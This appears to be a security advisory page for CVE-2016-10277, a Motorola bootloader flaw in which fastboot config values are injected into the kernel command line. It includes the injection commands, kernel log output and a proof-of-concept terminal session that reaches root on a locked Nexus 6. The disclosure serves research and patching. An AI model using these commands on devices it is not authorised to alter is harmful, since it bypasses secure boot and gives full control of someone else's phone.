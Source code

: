 ```yaml
---
layout: vuln
credit: roeeh
timeline:
    - type: 'release'
      date: '2017-05-23'
    - type: 'vendor-advisory'
      date: '2017-05-01'
      arg: 'Android Security'
    - type: 'add'
      date: '2017-03-01'      
    - type: 'report'
      date: '2016-12-21'
      arg: 'Android Security'
    - type: 'products-add'
      date: '2017-06-07'
      arg: 'Moto G4 & Moto G5'
    - type: 'products-add'
      date: '2017-06-12'
      arg: 'Moto G3, Moto G4 Play, Moto G5 Plus'
    - type: 'products-add'
      date: '2017-06-13'
      arg: 'Moto G2'
      
alephid: ALEPH-2017011
date: '2017-05-23'
severity: 'critical'
product: 
    - Google Nexus 6
    - Moto G5
    - Moto G4
    - Moto G5 Plus ([community reported](https://github.com/alephsecurity/initroot/issues/1))
    - Moto G4 Play ([community reported](https://twitter.com/utoprime/status/873941023050919936))
    - Moto G3 ([community reported](https://twitter.com/asiekierka/status/873467107090075648))
    - Moto G2 ([community reported](https://disqus.com/home/discussion/alephsecurity/initroot_hello_moto/#comment-3355705740))
    - Moto E ([community reported](https://alephsecurity.com/2017/06/07/initroot-moto/#comment-3379229648))
    - Other Motorola devices (unconfirmed)
vulnerable: 
    - 'Nexus 6: N6F26Y and earlier.'
    - 'Moto G4: MPJ24.139-63, NPJ25.93-14, NPJS25.93-14.4, other unconfirmed'
    - 'Moto G5: NPP25.137-33, other unconfirmed'
    
mitigation: 'Install Android 7.1.1 N6F27C or later. (Nexus 6)'
    
cve: 'CVE-2016-10277'
title: 'Motorola Android Bootloader Kernel Cmdline Injection Secure Boot Bypass'
references:
    - src: "Google's Advisory (May 2017)"
      url: 'https://source.android.com/security/bulletin/2017-05-01#eop-in-motorola-bootloader'
    - src: 'Factory Images for Nexus and Pixel Devices'
      url: 'https://developers.google.com/android/images'
---
```

Motorola `ABOOT` (Applications Bootloader) contains several arguments that can be controlled through the fastboot interface, even if the bootloader is locked:

On Nexus 6:
```xml
$ fastboot oem config
[...]
(bootloader) <UTAG name="battery" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     Battery detection control
(bootloader)     ("meter_lock" or "no_eprom")
(bootloader)   </description>
(bootloader) </UTAG>

(bootloader) <UTAG name="bootmode" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     To force certain bootmode
(bootloader)     (valid values are "fastboot", "factory", "bp-tools", "q
(bootloader)     com", and "on-device-diag")
(bootloader)   </description>
(bootloader) </UTAG>

(bootloader) <UTAG name="carrier" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     Carrier IDs, see http://goo.gl/lojLh3
(bootloader)   </description>
(bootloader) </UTAG>

(bootloader) <UTAG name="console" type="str" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     Config kernel console log
(bootloader)       enable|true     - enable with default settings
(bootloader)       disable|false   - disable
(bootloader)       <config string> - enable with customized settings
(bootloader)       (e.g.: "ttyHSL0", "ttyHSL0,230400,n8")
(bootloader)   </description>
(bootloader) </UTAG>

(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.048s]
finished. total time: 0.048s
```
The `fsg-id`, `carrier` and `console` parameters can contain arbitrary values, which eventually propagate to the kernel command line.
Now, if the bootloader didn't sanitize these arguments, one could pass arbitrary kernel command line arguments:

```terminal
$ fastboot oem config console "a foo=0 "
$ fastboot oem config fsg-id "a bar=1"
$ fastboot oem config carrier "a baz=2"
```

And indeed, in build `N6F26Y` and earlier:
<div class="language-terminal highlighter-rouge"><pre class="highlight"><code>shamu:/ $ dmesg | grep command
[    0.000000] Kernel command line: <span class="kv">console</span>=<span class="nc">a foo=0 </span>,115200,n8 earlyprintk 
<span class="kv">androidboot.console</span>=<span class="nc">a foo=0 </span> androidboot.hardware=shamu msm_rtb.filter=0x37
ehci-hcd.park=3 utags.blkdev=/dev/block/platform/msm_sdcc.1/by-name/utags
utags.backup=/dev/block/platform/msm_sdcc.1/by-name/utagsBackup coherent_pool=8M
vmalloc=300M buildvariant=user androidboot.bootdevice=msm_sdcc.1 androidboot.serialno=ZX1G427V97
androidboot.baseband=mdm androidboot.version-baseband=D4.01-9625-05.45+FSG-9625-02.117
androidboot.mode=normal androidboot.device=shamu androidboot.hwrev=0x83A0
androidboot.radio=0x7 androidboot.powerup_reason=0x00004000 androidboot.bootreason=reboot
androidboot.write_protect=0 restart.download_mode=0 <span class="kv">androidboot.fsg-id</span>=<span class="nc">a bar=1</span>
androidboot.secure_hardware=1 androidboot.cid=0xDE androidboot.wifimacaddr=F8:CF:C5:9F:8F:EB
androidboot.btmacaddr=F8:CF:C5:9F:8F:EA mdss_mdp.panel=1:dsi:0:qcom,mdss_dsi_mot_smd_596_QHD_dualmipi0_cmd_v0
androidboot.bootloader=moto-apq8084-72.02 <span class="kv">androidboot.carrier</span>=<span class="nc">a baz=2</span> androidboot.hard&lt;
</code></pre>
</div>

## Proof-of-Concept ##

A root exploit for Nexus 6 is demonstrated. PoC is available at our [GitHub research repo](https://github.com/alephsecurity/initroot). 
The following shows a successful attack:

```terminal
$ adb root
adbd cannot run as root in production builds

$ adb shell
shamu:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:shell:s0
shamu:/ $ getenforce
Enforcing
shamu:/ $ setenforce permissive
setenforce: Couldn't set enforcing status to 'permissive': Permission denied
shamu:/ $ reboot bootloader

$ fastboot getvar unlocked
[...]
unlocked: no
finished. total time: 0.008s

$ fastboot oem config fsg-id "a initrd=0x11000000,1518172"
[...]
(bootloader) <UTAG name="fsg-id" type="str" protected="false">
(bootloader)   <value>
(bootloader)     a initrd=0x11000000,1518172
(bootloader)   </value>
(bootloader)   <description>
(bootloader)     FSG IDs, see http://goo.gl/gPmhU
(bootloader)   </description>
(bootloader) </UTAG>

OKAY [  0.016s]
finished. total time: 0.016s

$ fastboot flash aleph malicious.cpio.gz
[...]
target reported max download size of 536870912 bytes
sending 'aleph' (1482 KB)...
OKAY [  0.050s]
writing 'aleph'...
(bootloader) Not allowed in LOCKED state!
FAILED (remote failure)
finished. total time: 0.054s

$ fastboot continue
[...]
resuming boot...
OKAY [  0.007s]
finished. total time: 0.007s

$ adb shell
shamu:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
shamu:/ # getenforce
Enforcing
shamu:/ # setenforce permissive
shamu:/ # getenforce
Permissive
shamu:/ #
```
